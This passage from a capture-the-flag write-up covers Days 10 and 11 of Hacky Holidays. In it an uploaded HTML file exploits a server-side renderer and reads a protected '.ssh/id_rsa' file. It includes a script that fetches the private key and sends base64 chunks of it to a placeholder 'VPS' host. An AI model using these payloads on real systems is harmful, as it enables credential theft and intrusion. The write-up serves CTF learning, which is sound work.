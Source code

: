 The account is created. Upon authenticating we can see that now we have the `admin` role.

![admin](https://user-images.githubusercontent.com/55701068/151598656-fb78a388-9526-4f2a-9918-050b165b4753.png)

4) We can navigate to [uploads](https://c2.hackyholidays.h1ctf.com/uploads/) and grab the 10th flag

![day 10](https://user-images.githubusercontent.com/55701068/151598731-846c693a-45ab-4490-930a-abafc40df998.png)

**DAY 11 - Hidden Presents in the North Pole**
--------------------
1) Day 11, and we notice the `/uploads` endpoints has an upload functionality, that allows only .html files to be uploaded
2) We proceed with a file that contains some tags that attempt to retrieve content from a host we control
```html
<html>
 <img src=http://VPS-IP:port/test1>
</html>
```
We notice once file is uploaded we receive a request from an IP we do not own `18.219.86.178`

![request-uploading](https://user-images.githubusercontent.com/55701068/151598813-fbb19957-3719-49af-b68c-8f33ab78dadb.png)

This means that some processing happens to our uploaded file. Trying to grab easy wins such as `document.cookie` will fail.

3) During previous day recon we have identified that a user's home directory endpoint exists but we get `403 Forbidden` when trying to visit it and common files it might hosts (e.g. `.ssh/id_rsa`).
https://c2.hackyholidays.h1ctf.com/~/
4) We try to uploaded the file below hoping that the IP that processes our uploads might be allowed to view those files.
```html
<!DOCTYPE html>
<html>
 <body>
  <iframe id="test" src="https://c2.hackyholidays.h1ctf.com/~/.ssh/id_rsa" width="1900" height="1900">
 </body>
</html>
```

Once uploaded we can indeed see that the file is rendered as a screenshot

![upload-](https://user-images.githubusercontent.com/55701068/151658394-0d7689ae-7c8a-4298-be20-96e81db6ef03.png)

5) However trying to extract the page contents via OCR will not be that helpful since not all letters will be extracted correctly, therefore we will end up with invalid ssh key. We therefore attempt to send the file to our server. This was very problematic, cause we rarely received any request to our server, and the file size was probably way bigger than the allowed size of a value for a `GET` parameter. The best way to do this would probably be via a `POST` xhr request, sending the file contents as the body of the `POST request, however during the CTF it seemed to be easier to work with GET requests. Therefore we tried to use the HTML code below, to split the content sent into smaller chunks.
We also had to put the upload request in a loop with some rate limiting cause we only received 2 out of 15 requests send
```html
<script>
fetch('https://c2.hackyholidays.h1ctf.com/~/.ssh/id_rsa')
    .then(response=>response.text())
    .then(text=>{
                 window.location.href='http://VPS/?key=' + encodeURIComponent(btoa(text.slice(0,500)))
            });
</script>
```
Slowly we were able to extract the `id_rsa` key. You can see below, partial parts of the key send as base64 encoded to avoid it breaking the request